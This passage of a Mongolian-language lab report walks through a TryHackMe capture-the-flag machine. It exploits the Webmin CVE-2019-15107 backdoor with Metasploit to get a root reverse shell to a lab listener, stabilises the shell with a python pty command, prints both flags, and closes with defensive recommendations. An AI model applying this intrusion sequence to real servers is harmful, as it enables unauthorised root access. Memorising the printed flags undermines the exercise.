

Reverse shell-ээр үүссэн энгийн командын орчин нь интерактив терминалын зарим боломжийг бүрэн дэмжихгүй байж болно. Жишээлбэл, терминалын удирдлага, командын мөрийн зарим үйлдэл болон интерактив програмуудтай ажиллахад хүндрэл үүсэж болно.

Иймээс Python-ийн `pty` санг ашиглан псевдо терминал (Pseudo-terminal) үүсгэсэн.

Ашигласан команд:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Командын бүрэлдэхүүн:

- `python3` нь Python 3 interpreter-ийг ажиллуулна.
- `-c` нь Python кодыг командын мөрөөс шууд ажиллуулах параметр.
- `import pty` нь псевдо терминалтай ажиллах Python санг ачаална.
- `pty.spawn()` нь заасан програмыг псевдо терминал дотор ажиллуулна.
- `"/bin/bash"` нь Bash shell-ийг эхлүүлнэ.

Командыг ажиллуулсны дараа дараах prompt гарсан.

```text
root@source:/usr/share/webmin/#
```

Дараа нь `whoami` командыг дахин ажиллуулахад `root` гэсэн үр дүн гарсан.

Энэ нь shell тогтворжуулах үйлдлийн дараа root эрх хэвээр хадгалагдсан болохыг баталсан.

### Root директор руу шилжих оролдлого ба гарсан алдаа

Root хэрэглэгчийн гэрийн директорт очихын тулд эхлээд дараах командыг оруулсан.

```bash
cd root
```

Бодит үр дүн:

```text
bash: cd: root: No such file or directory
```

Энэ алдаа нь `cd root` команд тухайн үеийн одоогийн директор болох `/usr/share/webmin` доторх `root` нэртэй дэд директорыг хайсантай холбоотой. Гэвч тийм директор байгаагүй.

Linux системд root хэрэглэгчийн гэрийн директор нь ихэвчлэн `/root` гэсэн абсолют замтай байдаг. Иймээс `root` болон `/root` нь ижил утгатай биш юм.

Энэ алдаа нь эрхийн дутагдал биш, харин директорын замыг харьцангуй болон абсолют хэлбэрээр буруу зааснаас үүссэн.

### Root директорын агуулгыг шалгах


Root хэрэглэгчийн гэрийн директорын файлуудыг жагсаахын тулд дараах командыг ажиллуулсан.

```bash
cd /root
ls -la
```

Бодит үр дүнгийн чухал хэсэг:

```text
total 36
drwx------  5 root root 4096 Jun 26  2020 .
drwxr-xr-x 24 root root 4096 Jun 26  2020 ..
-rw-------  1 root root   44 Jun 26  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Jun 26  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 26  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jun 26  2020 .ssh
-rw-r--r--  1 root root   25 Jun 26  2020 root.txt
```

`ls` команд нь директорын агуулгыг жагсаана.

- `-l` нь файл, директорын эрх, эзэмшигч, хэмжээ болон өөрчлөгдсөн огноог дэлгэрэнгүй харуулна.
- `-a` нь цэгээр эхэлдэг далд файлуудыг мөн харуулна.

Үр дүнд `root.txt` файл илэрсэн. Файлын эзэмшигч `root`, бүлэг `root` байсан бөгөөд файлын хэмжээ 25 байт гэж харагдсан.

Энэ нь root хэрэглэгчийн гэрийн директорт лабораторийн Root Flag байрлаж байгааг тогтоосон.

### Root Flag унших


Root Flag файлын агуулгыг уншихын тулд дараах командыг ашигласан.

```bash
cat root.txt
```

Бодит үр дүн:

```text
THM{UPDATE_YOUR_INSTALL}
```

`cat` команд нь файлд хадгалагдсан текстэн агуулгыг терминал дээр хэвлэдэг.

Ингэснээр Root Flag амжилттай уншигдсан. Энэ нь зорилтот системд root эрхээр нэвтэрсэн болон root хэрэглэгчийн гэрийн директор дахь файлыг унших боломжтой байсныг нотолсон.

### User Flag файлыг хайх


Root Flag-ийг уншсаны дараа User Flag файлын байршлыг тодорхойлох зорилгоор бүх системээс хайлт хийсэн.

Ашигласан команд:

```bash
find / -type f -name "user.txt" 2>/dev/null
```

Командын параметрүүд:

- `find` нь файл болон директор хайх хэрэгсэл.
- `/` нь үндсэн директороос хайлт эхлүүлэхийг заана.
- `-type f` нь зөвхөн файл хайх нөхцөл.
- `-name "user.txt"` нь нэр нь `user.txt`-тэй таарах файлыг хайна.
- `2>/dev/null` нь стандарт алдааны урсгал (stderr)-ыг `/dev/null` руу чиглүүлж, зөвшөөрөлтэй холбоотой алдааны мессежүүдийг дэлгэцэнд харуулахгүй.

Бодит үр дүн:

```text
/home/dark/user.txt
```

Энэ үр дүнгээс User Flag файл `/home/dark/` директорт байрлаж байгааг тогтоосон.

### User Flag унших


User Flag файлын агуулгыг уншихын тулд дараах командыг ажиллуулсан.

```bash
cat /home/dark/user.txt
```

Бодит үр дүн:

```text
THM{SUPPLY_CHAIN_COMPROMISE}
```

Энэ нь User Flag амжилттай уншигдсаныг баталсан.

Файл `/home/dark/user.txt` замд байрлаж байсан боловч уншилтыг root эрхтэй shell-ээс гүйцэтгэсэн. Иймээс тайланд файлын байршлыг тухайн хэрэглэгчийн эрхээр анх уншсан гэж буруу тайлбарлахгүй байх шаардлагатай.

---

## 4. ИЛЭРСЭН ЭМЗЭГ БАЙДЛЫН ТЕХНИКИЙН ШИНЖИЛГЭЭ

### CVE-2019-15107 – Webmin Backdoor

**Эмзэг байдлын төрөл:** Remote Command Execution (RCE), Backdoor, Software Supply Chain Compromise.

CVE-2019-15107 нь Webmin-ийн тодорхой хувилбаруудад хамаарах Backdoor эмзэг байдал юм. Энэ асуудал нь Webmin-ийн `password_change.cgi` бүрэлдэхүүнд хортой код оруулсантай холбоотой.

Ердийн нөхцөлд Webmin нь администраторын нэвтрэлт танилт болон эрхийн хяналтаар хамгаалагдсан байх ёстой. Гэвч тухайн эмзэг хувилбарт хортой код нэвтэрсэн байсан тул тусгай хүсэлтээр сервер дээр зөвшөөрөлгүй команд ажиллуулах боломж үүссэн.

#### Эмзэг байдал үүссэн шалтгаан

Энэ эмзэг байдлын онцлог нь програм хангамжийн нийлүүлэлтийн сүлжээний аюулгүй байдалтай холбоотой. Webmin-ийн эх кодод хортой өөрчлөлт орсон бөгөөд уг өөрчлөлт тодорхой хувилбарын багцад тархсан.

Ийм төрлийн халдлагыг **Software Supply Chain Attack** гэж нэрлэдэг. Энэ нь халдагч програм хангамжийн эцсийн хэрэглэгчийн системд шууд халдах бус, тухайн системд суулгагдах програмын эх код, бүтээх орчин, түгээлтийн багц зэрэг нийлүүлэлтийн үе шатанд нөлөөлөх арга юм.

#### Халдагчийн олж авах боломж

Эмзэг хувилбарыг ажиллуулж буй серверт халдагч тусгай хүсэлт илгээж, сервер талд команд ажиллуулах боломжтой. Үүнийг **Remote Command Execution** буюу алсаас команд ажиллуулах эмзэг байдал гэж нэрлэнэ.

Лабораторийн туршилтаар Metasploit-ийн `webmin_backdoor` модуль зорилтот систем эмзэг болохыг баталгаажуулсан. Дараа нь `run` командыг ажиллуулсны дараа reverse shell холболт үүссэн.

#### Үүсэх эрсдэл

Энэ эмзэг байдлыг ашигласан халдагч системийн эрхийн түвшнээс хамааран дараах эрсдэлийг үүсгэж болно.

- Сервер дээр зөвшөөрөлгүй команд ажиллуулах.
- Системийн файл болон тохиргоонд хандах.
- Хэрэглэгчийн бүртгэл, нууц мэдээлэлд нэвтрэх.
- Үйлчилгээний хэвийн ажиллагааг алдагдуулах.
- Хортой програм суулгах, persistence буюу тогтвортой нэвтрэх боломж бүрдүүлэх.
- Системийн бусад сүлжээний нөөц рүү цааш нэвтрэх.

Лабораторийн үр дүнд root эрхтэй shell үүссэн нь энэ эмзэг байдлын нөлөөлөл маш өндөр байж болохыг харуулсан.

#### Хамгаалах арга хэмжээ

Нэгдүгээрт, Webmin-ийг эмзэг хувилбараас аюулгүй, үйлдвэрлэгчийн баталгаажуулсан хувилбар руу шинэчлэх шаардлагатай.

Хоёрдугаарт, Webmin-ийн удирдлагын интерфейсийг бүх сүлжээнээс нээлттэй байлгахгүй, зөвхөн шаардлагатай администраторын IP хаяг эсвэл удирдлагын тусгай сүлжээнээс хандах боломжтой болгох хэрэгтэй.

Гуравдугаарт, Webmin-ийн нэвтрэлт танилтын тохиргоог шалгаж, хүчтэй нууц үг болон олон хүчин зүйлт баталгаажуулалт (MFA) ашиглах нь зүйтэй.

Дөрөвдүгээрт, програм хангамжийн багцыг зөвхөн албан ёсны, баталгаажсан эх үүсвэрээс татаж авах, багцын integrity болон authenticity-г шалгах шаардлагатай.

Тавдугаарт, Webmin-ийн лог болон Linux системийн үйл явдлыг тогтмол хянаж, хэвийн бус хүсэлт, администраторын үйлдэл болон гэнэтийн процессын үүсэлтийг илрүүлэх хэрэгтэй.

---

## 5. USER FLAG БА ROOT FLAG

### User Flag

User Flag файлын байршлыг `find` командаар илрүүлсэн.

Файлын зам:

```text
/home/dark/user.txt
```

Ашигласан команд:

```bash
cat /home/dark/user.txt
```

Бодит үр дүн:

```text
THM{SUPPLY_CHAIN_COMPROMISE}
```

Энэ flag нь лабораторийн User Flag даалгаврыг гүйцэтгэсэн болохыг батална. Файл нь `dark` хэрэглэгчийн гэрийн директор дотор байрлаж байсан боловч тухайн файлыг уншсан бодит shell-ийн эрх нь root байсан.

### Root Flag

Root Flag файл root хэрэглэгчийн гэрийн директор дотор байрлаж байсан.

Файлын зам:

```text
/root/root.txt
```

Ашигласан команд:

```bash
cat root.txt
```

Бодит үр дүн:

```text
THM{UPDATE_YOUR_INSTALL}
```

Энэ flag нь лабораторийн Root Flag даалгаврыг гүйцэтгэсэн болохыг батална.

### Flag-ийн нэгтгэл

| Үзүүлэлт | User Flag | Root Flag |
|---|---|---|
| Файлын зам | `/home/dark/user.txt` | `/root/root.txt` |
| Ашигласан команд | `cat /home/dark/user.txt` | `cat root.txt` |
| Бодит утга | `THM{SUPPLY_CHAIN_COMPROMISE}` | `THM{UPDATE_YOUR_INSTALL}` |
| Уншсан shell-ийн эрх | root | root |
| Үр дүн | Амжилттай | Амжилттай |

---


---

## 7. ХАМГААЛАЛТЫН ЗӨВЛӨМЖ

### Webmin програм хангамжийг шинэчлэх

Энэхүү лабораторийн үндсэн эмзэг байдал нь Webmin 1.890 хувилбартай холбоотой байсан. Иймээс хамгийн чухал хамгаалалтын арга хэмжээ нь эмзэг хувилбарыг ашиглахаа зогсоож, үйлдвэрлэгчийн баталгаажуулсан аюулгүй хувилбарт шилжих явдал юм.

Шинэчлэлт хийхээс өмнө тохиргоо болон шаардлагатай өгөгдлийн нөөц хуулбарыг авах хэрэгтэй. Мөн шинэчлэлтийн багцын эх үүсвэр, integrity болон authenticity-г баталгаажуулах шаардлагатай.

### Webmin үйлчилгээний портод хандах эрхийг хязгаарлах

Webmin нь 10000/TCP портоор үйлчилгээ үзүүлж байсан. Системийн удирдлагын интерфейсийг бүх хэрэглэгчид болон интернетээс шууд нээлттэй байлгах нь эрсдэлтэй.

Иймээс firewall ашиглан зөвхөн шаардлагатай администраторын IP хаяг эсвэл удирдлагын тусгай сүлжээнээс 10000/TCP порт руу хандах боломж олгох хэрэгтэй.

Мөн шаардлагагүй үед Webmin үйлчилгээг идэвхгүй болгох, удирдлагын интерфейсийг VPN эсвэл хамгаалагдсан дотоод сүлжээгээр хязгаарлах нь зүйтэй.

### Нэвтрэлт танилт болон эрхийн хяналтыг сайжруулах

Webmin-ийн администраторын бүртгэлд хүчтэй, давтагдашгүй нууц үг ашиглах шаардлагатай. Боломжтой тохиолдолд олон хүчин зүйлт баталгаажуулалт нэвтрүүлэх хэрэгтэй.

Администраторын эрхийг зөвхөн шаардлагатай ажил үүрэгтэй хэрэглэгчдэд олгох нь чухал. Мөн ашиглагдахгүй болсон бүртгэлийг идэвхгүй болгох, нэвтрэлтийн логийг тогтмол шалгах шаардлагатай.

### Хамгийн бага эрхийн зарчим хэрэгжүүлэх

**Least Privilege Principle** буюу хамгийн бага эрхийн зарчим нь хэрэглэгч, процесс болон үйлчилгээ зөвхөн үүргээ гүйцэтгэхэд шаардлагатай эрхийг эзэмших ёстой гэсэн аюулгүй байдлын үндсэн зарчим юм.

Webmin зэрэг системийн удирдлагын програм нь өндөр эрхтэй үйлдэл гүйцэтгэх боломжтой тул түүний ажиллагааг тусгаарлах, шаардлагагүй root эрхийг бууруулах, администраторын үйлдлийг бүртгэх шаардлагатай.

### Command Injection болон Remote Command Execution-ээс хамгаалах

Програм хангамжид хэрэглэгчийн оруулсан өгөгдлийг системийн командтай шууд холбож ажиллуулах нь Command Injection болон Remote Command Execution эрсдэлийг үүсгэдэг.

Иймээс програм хөгжүүлэх үед:

- Хэрэглэгчийн оролтыг баталгаажуулах.
- Shell командын мөрийг шууд үүсгэхээс зайлсхийх.
- Боломжтой бол аюулгүй API болон сан ашиглах.
- Командын параметрүүдийг тусад нь боловсруулах.
- Үйлчилгээний эрхийг хязгаарлах.
- Кодын аюулгүй байдлын шалгалт хийх.

шаардлагатай.

### Лог болон үйл явдлын хяналт

Системийн аюулгүй байдлыг хангахын тулд Webmin болон Linux системийн логийг тогтмол хянах шаардлагатай.

Хэвийн бус HTTP хүсэлт, администраторын нэвтрэлт, гэнэтийн процесс, зөвшөөрөлгүй файл өөрчлөлт болон сүлжээний холболтын өөрчлөлтийг илрүүлэх хяналтын механизм нэвтрүүлэх нь зүйтэй.

Мөн логийг төвлөрсөн серверт хадгалж, өөрчлөлтөөс хамгаалах нь халдлагын дараах шинжилгээнд чухал ач холбогдолтой.

### Програм хангамжийн нийлүүлэлтийн сүлжээний аюулгүй байдал

CVE-2019-15107 нь програм хангамжийн нийлүүлэлтийн сүлжээний халдлагын эрсдэлийг харуулсан. Иймээс байгууллагууд зөвхөн програмын хувилбар шинэ эсэхийг шалгахаас гадна татаж авсан багцын эх үүсвэр, гарын үсэг, hash болон бүтээх орчны найдвартай байдлыг шалгах шаардлагатай.

Програм хангамжийн нийлүүлэгчийн аюулгүй байдлын мэдээлэл, эмзэг байдлын мэдэгдэл болон шинэчлэлтийн зөвлөмжийг тогтмол хянах нь чухал.

### SUID эрхийн хяналт

Энэхүү Source лабораторийн бодит ажиллагаанд SUID файл хайсан болон SUID эрх ашиглан нэмэлт эрх ахиулсан үр дүн бүртгэгдээгүй. Иймээс SUID эмзэг байдал илэрсэн гэж дүгнэх боломжгүй.

Гэсэн хэдий ч Linux системийн хамгаалалтын ерөнхий зөвлөмжийн хүрээнд SUID эрхтэй файлуудыг тогтмол шалгаж, шаардлагагүй SUID битийг арилгах, зөвхөн шаардлагатай системийн файлуудад ийм эрх олгох хэрэгтэй.

---


## 10. АЖЛЫН ЭЦСИЙН ҮР ДҮН

Лабораторийн ажлын явцад зорилтот Source машины сүлжээний холболтыг шалгаж, Webmin үйлчилгээний мэдээллийг тодорхойлсон. Nmap болон cURL ашиглан үйлчилгээний талаар мэдээлэл цуглуулж, Webmin 1.890 хувилбар ажиллаж байгааг илрүүлсэн.

Дараа нь Metasploit Framework ашиглан `exploit/linux/http/webmin_backdoor` модулийг сонгож, CVE-2019-15107 эмзэг байдлыг шалгасан. `check` командын үр дүнд зорилтот систем эмзэг болох нь батлагдсан. Лабораторийн зөвшөөрөгдсөн орчинд `run` командыг ажиллуулсны дараа Kali Linux-ийн `192.168.196.54:4444` хаяг дээр reverse shell холболт амжилттай нээгдсэн.

Үүссэн shell дээр `whoami` командаар `root`, `id` командаар `uid=0(root)` гэсэн үр дүн авсан. Энэ нь зорилтот системд root эрхтэй командын орчин нээгдсэнийг нотолсон. Мөн Python-ийн `pty` санг ашиглан Bash shell-ийг тогтворжуулсан.

Эцэст нь Linux системийн файлын бүтцийг судалж, `find` командаар `/home/dark/user.txt` файлыг илрүүлсэн. `cat` командаар User Flag-ийн `THM{SUPPLY_CHAIN_COMPROMISE}` утгыг уншсан. Мөн root хэрэглэгчийн гэрийн директороос `root.txt` файлыг илрүүлж, `THM{UPDATE_YOUR_INSTALL}` утгыг амжилттай уншсан.

Ингэснээр лабораторийн хоёр flag-ийг хоёуланг нь олж, Source машины даалгаврыг амжилттай дуусгасан.

---

## 11. ДҮГНЭЛТ

Энэхүү лабораторийн ажлаар Linux суурьтай серверийн сүлжээний үйлчилгээ болон вэбд суурилсан системийн удирдлагын програмын аюулгүй байдлыг нэвтрэлтийн туршилтын аргачлалаар судаллаа. Ажлын эхний шатанд Kali Linux болон TryHackMe-ийн зорилтот машин хоорондын VPN холболтыг шалгаж, ICMP протоколоор сүлжээний холболт хэвийн байгааг баталгаажуулсан. Үүний дараа Nmap ашиглан зорилтот серверийн үйлчилгээ, нээлттэй портуудыг судалж, Webmin үйлчилгээ ажиллаж буй 10000/TCP портыг нарийвчлан шалгасан.

cURL хэрэгслийн тусламжтайгаар серверийн HTTP header мэдээллийг авч, `MiniServ/1.890` хувилбар ажиллаж байгааг тодорхойлсон. Энэ мэдээлэлд үндэслэн Metasploit Framework-ийн `webmin_backdoor` модулийг сонгож, CVE-2019-15107 эмзэг байдлын шалгалтыг гүйцэтгэсэн. Шалгалтын үр дүнд зорилтот систем эмзэг болох нь батлагдсан бөгөөд лабораторийн туршилтын дараа reverse shell холболт амжилттай үүссэн.

Shell-ийн эрхийн түвшнийг `whoami` болон `id` командаар шалгахад `root` хэрэглэгч, `uid=0(root)` гэсэн үр дүн гарсан. Энэ нь системд root эрхтэй командын орчин нээгдсэнийг баталсан. Мөн Python-ийн `pty` санг ашиглан интерактив Bash shell үүсгэж, Linux системийн директорын бүтцийг судалсан.

Лабораторийн төгсгөлд `/home/dark/user.txt` болон `/root/root.txt` файлуудыг олж, хоёр flag-ийн агуулгыг амжилттай уншсан. User Flag нь `THM{SUPPLY_CHAIN_COMPROMISE}`, Root Flag нь `THM{UPDATE_YOUR_INSTALL}` байсан.

Энэхүү лабораторийн ажлаас сүлжээний үйлчилгээний мэдээлэл цуглуулах, програмын хувилбарыг тодорхойлох, CVE мэдээллийг ашиглан эмзэг байдлыг үнэлэх, Metasploit Framework-ийн модулийг судлах, Linux shell-ийн эрхийн түвшнийг шалгах болон файлын системээс нотолгоо цуглуулах практик мэдлэг, чадвар эзэмшсэн.

Мөн CVE-2019-15107 нь програм хангамжийн нийлүүлэлтийн сүлжээний аюулгүй байдлын ач холбогдлыг харуулсан бодит жишээ болохыг судаллаа. Програм хангамжийг зөвхөн ажиллаж байгаа эсэхээр нь үнэлэх бус, хувилбар, эх үүсвэр, шинэчлэлт болон integrity-г тогтмол шалгах шаардлагатайг энэхүү туршилт харуулсан.

Иймээс байгууллагын Linux сервер болон Webmin зэрэг удирдлагын програмын аюулгүй байдлыг хангахын тулд програм хангамжийг тогтмол шинэчлэх, удирдлагын портыг хязгаарлах, нэвтрэлт танилтыг сайжруулах, хамгийн бага эрхийн зарчим хэрэгжүүлэх, лог болон үйл явдлыг хянах нь чухал гэж дүгнэж байна.

---
